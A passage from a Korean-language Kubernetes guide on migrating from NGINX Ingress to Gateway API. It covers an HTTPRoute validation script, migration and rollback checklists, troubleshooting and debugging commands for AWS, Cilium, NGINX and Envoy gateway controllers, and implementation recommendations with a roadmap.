    echo "❌ Backend service not found: $svc"
    exit 1
  fi

  ENDPOINTS=$(kubectl get endpoints $svc -n $NAMESPACE -o jsonpath='{.subsets[*].addresses[*].ip}' | wc -w)
  if [ "$ENDPOINTS" -eq 0 ]; then
    echo "⚠️  Warning: Service $svc has no endpoints"
  else
    echo "✅ Backend service $svc has $ENDPOINTS endpoint(s)"
  fi
done

# 5. Gateway 주소 확인
PARENT_GATEWAY=$(kubectl get httproute $HTTPROUTE_NAME -n $NAMESPACE -o jsonpath='{.spec.parentRefs[0].name}')
PARENT_NAMESPACE=$(kubectl get httproute $HTTPROUTE_NAME -n $NAMESPACE -o jsonpath='{.spec.parentRefs[0].namespace}')
PARENT_NAMESPACE=${PARENT_NAMESPACE:-$NAMESPACE}

GATEWAY_ADDRESS=$(kubectl get gateway $PARENT_GATEWAY -n $PARENT_NAMESPACE -o jsonpath='{.status.addresses[0].value}')
if [ -z "$GATEWAY_ADDRESS" ]; then
  echo "❌ Gateway has no address assigned"
  exit 1
fi
echo "✅ Gateway address: $GATEWAY_ADDRESS"

# 6. 실제 HTTP 요청 테스트
HOSTNAMES=$(kubectl get httproute $HTTPROUTE_NAME -n $NAMESPACE -o jsonpath='{.spec.hostnames[*]}')
FIRST_HOST=$(echo $HOSTNAMES | awk '{print $1}')
FIRST_PATH=$(kubectl get httproute $HTTPROUTE_NAME -n $NAMESPACE -o jsonpath='{.spec.rules[0].matches[0].path.value}')

echo ""
echo "=== HTTP Request Test ==="
HTTP_CODE=$(curl -s -o /dev/null -w "%{http_code}" -H "Host: $FIRST_HOST" http://$GATEWAY_ADDRESS$FIRST_PATH --max-time 5)

if [ "$HTTP_CODE" -ge 200 ] && [ "$HTTP_CODE" -lt 400 ]; then
  echo "✅ HTTP request successful (HTTP $HTTP_CODE)"
else
  echo "❌ HTTP request failed (HTTP $HTTP_CODE)"
  exit 1
fi

echo ""
echo "=== All Checks Passed ==="
```

**사용 예시:**
```bash
chmod +x validate-httproute.sh
./validate-httproute.sh production api-route
```

### 8.5 마이그레이션 체크리스트

#### 사전 준비 체크리스트

- [ ] 현재 Ingress 인벤토리 문서화 완료
- [ ] 기능 매핑 테이블 작성 완료
- [ ] 리스크 평가 및 완화 계획 수립
- [ ] 팀 교육 완료 (Gateway API 개념, 선택한 구현체)
- [ ] 백업 및 롤백 계획 수립
- [ ] 유지보수 창 또는 블루-그린 전환 계획 확정

#### 마이그레이션 실행 체크리스트

**Phase 1: 준비**
- [ ] 인벤토리 수집 스크립트 실행
- [ ] 기능 매핑 검토 회의 완료
- [ ] 리스크 평가 문서화

**Phase 2: 구축**
- [ ] Gateway API CRDs 설치
- [ ] 선택한 컨트롤러 설치
- [ ] PoC 환경 구축
- [ ] PoC 기능 테스트 완료
- [ ] PoC 성능 벤치마크 완료
- [ ] 프로덕션 배포 계획 승인

**Phase 3: 병렬 운영**
- [ ] 프로덕션 Gateway 배포
- [ ] HTTPRoute 리소스 생성 (모든 Ingress 대상)
- [ ] 내부 검증 테스트 (프록시 방식)
- [ ] 모니터링 대시보드 구성
- [ ] 알림 규칙 설정

**Phase 4: 트래픽 전환**
- [ ] DNS TTL 60초로 단축 (24시간 전)
- [ ] 10% 트래픽 전환
- [ ] 24시간 모니터링 (에러율, 레이턴시)
- [ ] 50% 트래픽 전환
- [ ] 1주일 모니터링
- [ ] 100% 트래픽 전환
- [ ] 2주간 안정화 모니터링

**Phase 5: 완료**
- [ ] NGINX Ingress 리소스 백업
- [ ] NGINX Ingress Controller 제거
- [ ] 네임스페이스 정리
- [ ] 마이그레이션 보고서 작성
- [ ] 런북(Runbook) 업데이트
- [ ] 팀 지식 공유 세션

#### 트래픽 전환 체크리스트

각 트래픽 전환 단계에서 다음을 확인:

- [ ] **에러율**: 기존 대비 5% 이내 증가
- [ ] **레이턴시 P95**: 기존 대비 10% 이내 증가
- [ ] **처리량**: 기존과 동일 수준 유지
- [ ] **CPU/Memory**: 정상 범위 내 (70% 미만)
- [ ] **5xx 에러**: 시간당 10건 미만
- [ ] **클라이언트 타임아웃**: 시간당 5건 미만
- [ ] **TLS 핸드셰이크 실패**: 0건

**롤백 트리거** (즉시 롤백):
- 에러율 20% 이상 증가
- P95 레이턴시 50% 이상 증가
- 5xx 에러 시간당 100건 이상
- 전체 서비스 다운

#### 마이그레이션 완료 체크리스트

- [ ] 모든 HTTPRoute가 `Programmed=True` 상태
- [ ] 모든 백엔드 서비스에 엔드포인트 존재
- [ ] DNS가 Gateway IP를 가리킴 (NGINX Ingress 제거)
- [ ] 모니터링 지표가 2주간 안정적
- [ ] 백업이 안전한 위치에 저장
- [ ] 팀 런북에 Gateway API 운영 절차 추가
- [ ] 인시던트 대응 플레이북 업데이트
- [ ] 마이그레이션 완료 보고서 작성 및 공유

### 8.6 문제 해결

#### 일반적인 이슈 및 해결 방법

| 증상 | 원인 | 해결 방법 |
|------|------|-----------|
| **HTTPRoute Accepted=False** | Gateway가 HTTPRoute를 거부함 | 1. ReferenceGrant 확인<br/>2. GatewayClass 올바른지 확인<br/>3. 네임스페이스 정책 확인 |
| **HTTPRoute Programmed=False** | 데이터플레인 구성 실패 | 1. 백엔드 Service 존재 확인<br/>2. 컨트롤러 로그 확인<br/>3. TLS Secret 유효성 확인 |
| **503 Service Unavailable** | 백엔드 엔드포인트 없음 | 1. Service의 Endpoints 확인<br/>2. Pod selector 일치 여부 확인<br/>3. Pod 상태 확인 (Ready) |
| **TLS 인증서 오류** | Secret이 올바르지 않음 | 1. Secret 타입 `kubernetes.io/tls` 확인<br/>2. `tls.crt`, `tls.key` 존재 확인<br/>3. 인증서 유효기간 확인 |
| **404 Not Found** | 경로 매칭 실패 | 1. PathPrefix vs Exact 타입 확인<br/>2. 대소문자 구분 여부 확인<br/>3. URL 인코딩 확인 |
| **Gateway 주소 없음** | LoadBalancer 생성 실패 | 1. 클라우드 제공자 쿼터 확인<br/>2. 서브넷 IP 고갈 여부 확인<br/>3. 어노테이션 오타 확인 |

#### 컨트롤러별 디버깅 명령어

**AWS Load Balancer Controller**

```bash
# 컨트롤러 로그 확인
kubectl logs -n kube-system deployment/aws-load-balancer-controller --tail=100 -f

# Gateway의 실제 NLB 확인
kubectl get gateway <name> -n <namespace> -o jsonpath='{.metadata.annotations.service\.beta\.kubernetes\.io/aws-load-balancer-name}'

# NLB의 Target Group 상태 확인
aws elbv2 describe-target-health --target-group-arn <arn>

# HTTPRoute 이벤트 확인
kubectl describe httproute <name> -n <namespace>
```

**Cilium Gateway API**

```bash
# Cilium Operator 로그
kubectl logs -n kube-system deployment/cilium-operator --tail=100 -f

# Envoy 구성 덤프
kubectl exec -n kube-system ds/cilium -- cilium envoy config dump > envoy-config.json

# HTTPRoute 라우팅 테이블 확인
kubectl exec -n kube-system ds/cilium -- cilium service list

# 플로우 모니터링 (Gateway 관련)
hubble observe --protocol http --port 443

# Gateway 상태 확인
cilium status --wait
```

**NGINX Gateway Fabric**

```bash
# NGINX Gateway 로그
kubectl logs -n nginx-gateway deployment/nginx-gateway --tail=100 -f

# NGINX 구성 확인
kubectl exec -n nginx-gateway deployment/nginx-gateway -- nginx -T

# HTTPRoute 매핑 확인
kubectl describe httproute <name> -n <namespace>

# 접근 로그 실시간 확인
kubectl logs -n nginx-gateway deployment/nginx-gateway -f | grep "HTTP/1.1"
```

**Envoy Gateway**

```bash
# Envoy Gateway 컨트롤러 로그
kubectl logs -n envoy-gateway-system deployment/envoy-gateway --tail=100 -f

# Envoy Proxy 로그 (데이터플레인)
kubectl logs -n envoy-gateway-system deployment/envoy-<gateway-name> --tail=100 -f

# Envoy 관리 인터페이스 포트 포워딩
kubectl port-forward -n envoy-gateway-system deployment/envoy-<gateway-name> 19000:19000

# 브라우저에서 http://localhost:19000 접속하여 stats, config 확인

# xDS 구성 덤프
curl http://localhost:19000/config_dump > envoy-xds-config.json
```

**공통 디버깅**

```bash
# Gateway 상태 상세 확인
kubectl get gateway <name> -n <namespace> -o yaml

# HTTPRoute 상태 상세 확인
kubectl get httproute <name> -n <namespace> -o yaml

# 백엔드 Service 엔드포인트 확인
kubectl get endpoints <service-name> -n <namespace>

# Pod가 Ready 상태인지 확인
kubectl get pods -n <namespace> -l <selector>

# 네트워크 정책 확인 (트래픽 차단 여부)
kubectl get networkpolicies -n <namespace>

# 이벤트 확인 (최근 10분)
kubectl get events -n <namespace> --sort-by='.lastTimestamp' | tail -20
```

---

## 9. 벤치마크 비교 계획

5개 Gateway API 구현체의 객관적인 성능 비교를 위한 체계적인 벤치마크를 계획하고 있습니다. 처리량, 레이턴시, TLS 성능, L7 라우팅, 스케일링, 리소스 효율성, 장애 복구, gRPC 등 8개 시나리오를 동일한 EKS 환경에서 측정합니다.

:::info 벤치마크 상세 계획
테스트 환경 설계, 시나리오 상세, 측정 지표 및 실행 계획은 **[Gateway API 구현체 성능 벤치마크 계획](/docs/benchmarks/gateway-api-benchmark)**에서 확인할 수 있습니다.
:::

---

## 10. 결론 및 향후 로드맵

### 10.1 핵심 요약

| 경로 | 최적 대상 | 핵심 장점 |
|------|-----------|-----------|
| **AWS Native** | AWS 올인 조직 | 완전 관리형, 자동 스케일링, 제로 운영 |
| **Cilium** | 고성능 + 관측성 중시 | eBPF 최고 성능, Hubble 가시성, ENI 네이티브 |
| **NGINX Fabric** | NGINX 경험 활용 | 검증된 안정성, 익숙한 설정, 빠른 전환 |
| **Envoy Gateway** | CNCF 표준 + 서비스 메시 | L7 기능 풍부, Istio 통합, 확장성 |
| **kGateway** | AI/ML 통합 필요 | AI 라우팅, 엔터프라이즈 지원, Solo.io 생태계 |

### 10.2 권장 사항

**AWS 올인 환경: AWS Native (LBC v3)**
- 팀이 AWS에 올인하고 있고, 운영 부담을 최소화하려는 경우
- ALB/NLB의 관리형 특성을 최대한 활용하고 싶은 경우
- 성능보다 안정성과 자동 스케일링이 중요한 경우

**고성능 + 관측성: Cilium Gateway API**
- 초저지연 (P99 10ms 미만) 요구사항이 있는 경우
- eBPF 기반 네트워킹의 이점을 활용하고 싶은 경우
- Hubble을 통한 L7 가시성이 필요한 경우
- ENI 모드로 VPC 네이티브 통합을 원하는 경우

**NGINX 경험 활용: NGINX Gateway Fabric**
- 기존에 NGINX Ingress를 사용 중이고 빠른 전환을 원하는 경우
- 팀이 NGINX 설정에 익숙한 경우
- 검증된 안정성을 가장 중요하게 생각하는 경우

**CNCF 표준 + 서비스 메시: Envoy Gateway**
- 향후 서비스 메시(Istio, Linkerd)로 확장할 계획이 있는 경우
- CNCF 표준 준수와 벤더 중립성이 중요한 경우
- L7 기능(rate limiting, 인증, 변환)을 풍부하게 사용하려는 경우

**AI/ML 통합: kGateway**
- AI/ML 워크로드에 특화된 라우팅이 필요한 경우
- Solo.io의 엔터프라이즈 지원이 필요한 경우
- Gloo Platform 생태계와 통합하려는 경우

### 10.3 향후 확장 로드맵



**6개월 후 (2026년 8월)**
- **Policy Attachment v1** 표준 안정화
  - Rate Limiting, CORS, Auth 정책의 표준화
  - 벤더 종속성 없는 정책 이식성
- **벤치마크 보고서 완료**
  - 5개 솔루션의 실전 성능 데이터 공개
  - 워크로드별 최적 선택 가이드

**1년 후 (2027년 2월)**
- **GAMMA (Gateway API for Mesh Management and Administration)**
  - East-West 트래픽 관리 (서비스 간 통신)
  - Gateway API로 서비스 메시 표준화
- **Istio Ambient Mesh 통합**
  - 사이드카 없는 서비스 메시
  - Gateway API + Ambient = 완전한 트래픽 제어

**2년 후 (2028년 2월)**
- **AI Gateway 통합**
  - LLM 라우팅 (모델 선택, 부하 분산)
  - 토큰 기반 rate limiting
  - 비용 최적화 자동 라우팅
- **완전 자율 라우팅**
  - ML 기반 카나리 배포 자동화
  - 이상 탐지 및 자동 롤백
  - 예측 기반 오토스케일링

### 10.4 핵심 메시지

:::info
**2026년 3월 NGINX Ingress EOL 이전에 마이그레이션을 완료하여 보안 위협을 원천 차단하세요.**

Gateway API는 단순한 Ingress 대체가 아닌, 클라우드 네이티브 트래픽 관리의 미래입니다.
- **역할 분리**: 플랫폼 팀과 개발 팀의 명확한 책임 분리
- **표준화**: 벤더 종속성 없는 이식 가능한 구성
- **확장성**: East-West, 서비스 메시, AI 통합까지 확장
:::

**지금 시작하세요:**
1. 현재 Ingress 인벤토리 수집 (Section 8.3.1)
2. 워크로드에 맞는 솔루션 선택 (Section 10.2)
3. PoC 환경 구축 (Section 8.3.2)
4. 점진적 마이그레이션 실행 (Section 8.3.4)

**추가 리소스:**
- [Gateway API 공식 문서](https://gateway-api.sigs.k8s.io/)
- [Cilium 공식 문서](https://docs.cilium.io/)
- [NGINX Gateway Fabric](https://docs.nginx.com/nginx-gateway-fabric/)
- [Envoy Gateway](https://gateway.envoyproxy.io/)
- [AWS Load Balancer Controller](https://kubernetes-sigs.github.io/aws-load-balancer-controller/)

---

## 관련 문서

- [1. Gateway API 채택 가이드 (Part 1)](/docs/infrastructure-optimization/gateway-api-adoption-guide.md)
- [2. CoreDNS 모니터링 & 최적화](/docs/infrastructure-optimization/coredns-monitoring-optimization.md)
- [3. East-West 트래픽 최적화](/docs/infrastructure-optimization/east-west-traffic-best-practice.md)
- [4. Karpenter 초고속 오토스케일링](/docs/infrastructure-optimization/karpenter-autoscaling.md)
- [Kubernetes Gateway API 공식 문서](https://gateway-api.sigs.k8s.io/)
- [AWS Load Balancer Controller](https://kubernetes-sigs.github.io/aws-load-balancer-controller/)
- [Cilium Gateway API 문서](https://docs.cilium.io/en/stable/network/servicemesh/gateway-api/gateway-api/)
- [NGINX Gateway Fabric](https://docs.nginx.com/nginx-gateway-fabric/)
- [Envoy Gateway](https://gateway.envoyproxy.io/)
- [kGateway](https://k8sgateway.io/)
- [GAMMA Initiative](https://gateway-api.sigs.k8s.io/mesh/gamma/)
